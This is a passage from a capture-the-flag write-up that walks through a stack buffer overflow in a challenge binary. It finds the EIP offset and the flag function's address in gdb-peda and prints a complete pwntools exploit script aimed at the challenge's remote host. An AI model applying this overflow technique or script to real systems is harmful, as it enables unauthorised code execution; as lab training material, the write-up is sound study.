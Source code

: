 Programmers can modify the EIP register using various programming techniques such as branching and jumping instructions to change the flow of execution of a program.

We can control the pattern offset by using the pattern\_offset command.

```
gdb-peda$ pattern_offset 0x41417741
1094809409 found at offset: 188
```

### Returning The Flag Function

In order to return the flag, we need to know where the flag function starts. That way we can tell the program to jump to that function when doing the overflow. Using the ‘disas’ and supplying the flag function, we can see that the beginning memory address register for the flag function is ‘0x080491e2’.

To explain, we can create a script that sends a string to the program that will overflow the buffer. Then when the buffer is exceeded, we write the base memory register to the Instruction Pointer so that the flag function gets executed. This will then return the flag and solve the challenge. I think that’s what we’re doing anyway.

```
gdb-peda$ disas flag
Dump of assembler code for function flag:
   0x080491e2 <+0>:     push   ebp
```

### Capture The Flag

Now that we’ve done all the hard work of identifying the vulnerability, and finding out the EIP offset and flag functions base memory address register, let’s steal someone else script. I’m going to use the script found [here](https://shakuganz.com/2021/06/08/hackthebox-you-know-0xdiablos-write-up/) and change the IP address.

Yes, I should absolutely write my own script. I have no excuse other than I don’t really know how. I also don’t fancy spending a whole evening trying to make one from scratch. Instead, I will steal this script, work out what it is doing and then try to learn from it.

```
from pwn import *

context.update(arch="i386", os="linux")

elf = ELF("./vuln")

# offset to reach right before return address's location
offset = b"A" * 188

# craft exploit: offset + flag() + padding + parameter 1 + parameter 2
exploit = offset + p32(elf.symbols['flag'], endian="little") + p32(0x90909090) + p32(0xdeadbeef, endian="little") + p32(0xc0ded00d, endian="little")

r = remote("178.62.61.23", 32355)
#r = elf.process()
r.sendlineafter(":", exploit)
r.interactive()
```
